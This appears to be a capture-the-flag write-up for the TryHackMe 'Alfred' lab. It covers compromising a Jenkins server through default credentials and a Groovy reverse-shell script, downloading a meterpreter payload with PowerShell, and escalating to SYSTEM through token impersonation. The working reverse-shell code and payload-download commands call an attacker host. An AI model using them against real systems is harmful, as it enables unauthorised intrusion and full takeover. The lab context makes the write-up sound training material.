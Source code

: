 ```yaml
---
title: Alfred
date: 2024-02-24 10:00
categories: [ctf, security, hacking, exploits, web application]
tags: [ctf, security, hacking, exploits, web application]
---
```


# Overview
Alfred is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with abusing token impersonation. The foothold is accomplished after some enumeration of the web page after gaining access to the Jenkins portal, and the privilege escalation is done with exploiting impersonate privilege token. 

## Nmap Scan
sudo nmap -Pn -sS `<target ip>` -vvv
* 80/tcp   open  http   syn-ack ttl 125 
* 3389/tcp open  ms-wbt-server syn-ack ttl 125
* 8080/tcp open  http-proxy    syn-ack ttl 125

## Basic Enumeration
Checking the website, we see this has a backend for Jetty: `Jetty(9.4.z-SNAPSHOT)`

Nikto scan:
> Server: Microsoft-IIS/7.5

* Jenkins Login Server, on port 8080. 
    * We try good old admin:admin login.
    * It works, default/bad credentials gets us in.

Web page, we see an email, doesn't end up being useful, but still something to note.

* `alfred@wayneenterprises.com`

Wfuzz for web page directories.

> Port 80:
>> Nothing, dead end.

> Port 8080:
>> login, assets, logout, error, git, subversion, oops, cli

## Foothold
Looking through the Jekins console, we see a lot of different potential avenues to check for a foothold.

* We are able to find a script console, that allows you to pass groovy script to execute. 
* We can use a groovy reverse shell to gain a foothold.

```java
String host="10.13.50.64";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We are able to get a shell back, and are user `alfred\bruce`.

* We have the `user.txt` flag.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_User.png?raw=true)

## Local Enumeration
We have an unusual shell on the host, so switching to a more stable shell is usually a good choice. Meterpreter is pretty stable, so we drop a meterpreter reverse shell to make it easier to keep a connection. 

* `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.50.64 LPORT=5555 -f exe -o rev.exe`
* Download payload onto the machine: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.50.64:8000/rev.exe','rev.exe')"`
* We also used msfconsole, running `exploit/multi/handler`, set your conditions.
* We have a new shell. 

Getting what privileges we have available (`get privs`) gives us a big list of options:
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
All of these are enabled. The token we care about that is easy to abuse is the `SeImpersonatePrivilege` token.

## Impersonate Token
* Now we load incognito in our meterpreter shell, and we list out available tokens (`list_tokens -u/-g`).
* None of the user tokens are available for this impersonation abuse. 
* Listing out the group tokens shows a large number of tokens for use. 

```
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
```

## Privilege Escalation
The group `BUILTIN\Administrators` is the group we are definitely interested in impersonating. We use `impersonate_token` in our shell to escalate privileges. 

* When we use getuid, we see that we are now `NT AUTHORITY\SYSTEM`. However, we are not done escalating yet. We do not have permissions to do things like making an interactive shell locally (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).
* Since we cannot run `shell` to be able to get our root.txt, we need to migrate to another process that will allow us to have the right permissions. A process like `services.exe` is recommended to migrate to, list out proceses with `ps`.
    * `migrate <pid>`

After doing the migration, we can make a shell, and when we run `whoami`, we see that we are `NT AUTHORITY\SYSTEM`, and can read `root.txt`.

* It is in a different location, `C:\Windows\System32\config`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_Root.png?raw=true)